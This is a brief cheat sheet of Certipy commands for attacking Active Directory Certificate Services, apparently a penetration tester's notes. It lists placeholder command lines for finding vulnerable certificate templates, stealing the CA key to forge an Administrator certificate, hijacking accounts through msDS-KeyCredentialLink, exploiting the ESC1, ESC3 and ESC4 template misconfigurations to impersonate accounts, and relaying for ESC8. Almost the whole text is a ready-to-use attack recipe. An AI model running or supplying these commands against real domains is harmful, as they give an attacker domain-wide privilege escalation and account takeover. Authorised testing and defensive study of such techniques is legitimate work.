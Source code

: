 ### Source
https://github.com/ly4k/Certipy  

### Check for vulnerable templates (does only check port 80 in regard of ESC8)
```
certipy find -u <user>@<domain> -p <password> -dc-ip <dcIp> -ns <dnsIp> -dns-tcp
```

### Create golden certificate
```
certipy ca -backup -ca '<certificateAuthority>' -u <user>@<domain> -hashes <ntHash>
certipy forge -ca-pfx certificateAuthority.pfx -upn <user>@<domain> -subject 'CN=Administrator,CN=Users,DC=<domainComponent>,DC=<domainComponent>'
certipy auth -pfx <certificateAuthority>.pfx -dc-ip <dcIp>
```

### Take over account by writing to msDS-KeyCredentialLink
```
certipy shadow auto -u <user>@<domain> -p <password> -account <targetAccount>
```

### ESC1 supply an arbitrary Subject Alternative Name (SAN).
```
certipy req -u <user>@<domain> -p <password> -ca <certificateAuthority> -target <fqdnDcCa> -template <targetTemplate> -upn <targetAccount>@<domain>
certipy auth -pfx <targetAccount>.pfx -dc-ip <dcIp>
```

### ESC3 specify the Certificate Request Agent EKU
```
certipy req -u <user>@<domain> -p <password> -ca <certificateAuthority> -target <fqdnDcCa> -template <targetTemplate>
certipy req -u <user>@<domain> -p <password> -ca <certificateAuthority> -target <fqdnDcCa> -template User -on-behalf-of '<domain>\<targetAccount>' -pfx <targetAccount>.pfx
certipy auth -pfx <targetAccount>.pfx -dc-ip <dcIp>
```

### ESC4 write privileges over a certificate template configuration
```
certipy template -u <user>@<domain> -p <password> -template <targetTemplate> -save-old
certipy req -u <user>@<domain> -p <password> -ca <certificateAuthority> -target <fqdnDcCa> -template <targetTemplate> -upn <targetAccount>@<domain>
certipy template -u <user>@<domain> -p <password> -template <targetTemplate> -configuration <targetTemplate>.json
```

### ESC8 
```
certipy relay -ca <fqdnDcCa>
```

